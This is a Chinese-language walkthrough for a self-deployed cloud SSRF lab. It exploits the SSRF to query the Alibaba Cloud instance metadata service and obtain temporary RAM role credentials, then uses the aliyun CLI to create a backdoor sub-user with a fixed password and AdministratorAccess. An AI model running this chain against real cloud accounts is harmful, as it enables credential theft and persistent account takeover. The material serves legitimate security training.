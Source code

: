 ![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202206071203624.png)

部署 SSRF 靶场

```bash
terraform init
terraform apply
```

如果 init 初始化比较慢，挂上代理即可

在 apply 期间，会提示 Enter a value，这时输入 yes 回车即可。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202206071203355.png)

在 Outputs 处，可以看到返回的靶场地址，访问这个地址，可以看到 SSRF 测试靶场页面，这时就说明环境搭建完了。

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202206071203688.png)

## 0x02 环境利用

当前环境存在 SSRF 漏洞，但和常规 SSRF 所处的环境不同，这里的 SSRF 漏洞是出现在云服务器上的，这也就意味着我们可以通过这个 SSRF 漏洞获取到该服务器的元数据信息。

访问元数据

```bash
http://100.100.100.200/latest/meta-data
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202206071204895.png)

在返回的结果中，可以看到当前环境存在 ram/ 目录，这也就意味着当前云服务器配置了 RAM 角色，这样我们可以获取到临时凭证了。

通过元数据获取临时凭证

> 这里 URL 中的 huocorp-terraform-goat-role 是 RAM 角色名称，可以通过访问 http://100.100.100.200/latest/meta-data/ram/security-credentials/ 获取到。

```bash
http://100.100.100.200/latest/meta-data/ram/security-credentials/huocorp-terraform-goat-role
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202206071204154.png)

将临时凭证配置到 aliyun 命令行工具里。

```bash
aliyun configure --mode StsToken
```

![](https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/202206071204853.png)

创建子用户，并赋予管理员权限

```bash
aliyun ram CreateUser --UserName teamssix
aliyun ram CreateLoginProfile --UserName teamssix --Password TeamsSix@666
aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName teamssix
```
